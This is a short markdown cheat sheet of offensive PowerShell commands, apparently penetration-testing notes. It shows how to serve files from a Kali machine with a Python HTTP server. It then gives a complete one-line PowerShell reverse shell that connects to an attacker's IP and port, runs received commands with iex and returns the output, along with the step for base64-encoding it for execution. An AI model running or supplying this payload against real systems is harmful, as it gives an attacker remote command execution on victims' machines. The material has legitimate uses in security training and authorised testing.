 # Powershell commands


**Transfering files to a windows machine with powershell**

**Start a python http server on you kali box**

`sudo python3 -m http.server 80`

**On your kali box you can encode a powershell command like the following example** *It's a oneline reverse shell (change ip addr and port to your info)*

`echo '$client = New-Object System.Net.Sockets.TCPClient("ip addr",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv --to-code UTF-16LE | base64 -w 0`
